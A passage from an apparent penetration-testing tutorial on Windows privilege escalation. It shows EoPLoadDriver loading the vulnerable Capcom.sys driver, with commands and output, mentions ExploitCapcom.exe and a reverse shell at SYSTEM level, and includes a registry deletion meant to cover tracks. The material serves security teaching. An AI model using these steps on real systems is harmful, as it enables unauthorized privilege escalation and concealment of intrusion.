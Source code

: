 This command runs the `rev.exe` file with system privileges, providing the attacker with a reverse shell.

## Automating the Steps

### **Automating with EopLoadDriver**

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

```cmd-session
C:\> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

## Clean-up

### **Removing Registry Key**

We can cover our tracks a bit by deleting the registry key added earlier.

```cmd-session
C:\> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

{% hint style="warning" %}
#### Depreciated

Since Windows 10 Version 1803, the `SeLoadDriverPrivilege` is not exploitable, as it is no longer possible to include references to registry keys under `HKEY_CURRENT_USER`.
{% endhint %}
